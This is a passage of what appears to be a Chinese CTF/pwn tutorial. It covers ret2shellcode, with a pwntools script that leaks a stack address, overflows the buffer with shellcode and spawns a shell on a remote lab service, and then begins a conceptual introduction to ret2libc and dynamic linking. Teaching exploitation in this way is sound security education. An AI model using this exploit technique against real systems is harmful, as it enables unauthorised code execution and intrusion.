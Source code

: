 

#### 三 栈上的ret2shellcode

​		这一类有一个前提，需要把NX(栈不可执行)保护关闭。程序会把栈的地址输出，然后我们接收程序输出的栈地址，然后向栈中输入shellcode，通过栈溢出去跳到输入shellcode的位置，最终获取shell。

![image-20240415193520433](../typora-user-images/image-20240415193520433.png)

```python
# 简单样例
from pwn import *

context(os='linux',arch='amd64',log_level='debug') # 声明64位程序
context(arch='amd64')
p=remote('10.10.10.11',1289)

padding = 0x70+8
shellcode=asm(shellcraft.amd64.sh())

v4_addr=int(p.recvline().strip(),16) # 或者[:-1]删去\n 但是这里接收的是16进制字符串,int转换为整型

payload=shellcode.ljust(padding,'a') #用a填充到我们规定的字符长度padding,shellcode位于左边
# 相似的还有rjust()shellcode会位于右边，相当于右对齐的意思

payload=shellcode.ljust(padding,'a')+p64(v4_addr)
p.sendline(payload)
p.interactive()

```





### ret2libc

#### 一 什么是ret2libc

​		ret2libc这种攻击方式主要是针对动态链接(Dynamic linking)编译的程序，因为正常情况下是无法在程序中找到像system(),execve()这种系统级函数(如果程序中直接包含了这种函数就可以直接控制返回地址指向他们，而不用通过这种麻烦的方式)。

​		使用ret2libc的原因

​		现代操作系统为了增加系统的安全性，采取了ASLR和NX等安全措施，以防止恶意代码的注入和执行。通过ret2libc攻击，攻击者可以利用已加载到内存中的标准C库函数，从而完成对系统的攻击。

#### 二 动态链接

​		什么是动态链接？

​		动态链接是指在程序装载时通过动态链接器将程序所需的所有动态链接(Dynamic linking library)装载至进程空间中(程序按照模块拆分成各个相对独立的部分),当程序运行时才将他们链接在一起形成一个完整程序的过程。

​		动态链接的优点

​		节约内存，共享库文件，灵活更新，减小可执行文件大小

![image-20240415202921228](../typora-user-images/image-20240415202921228.png)

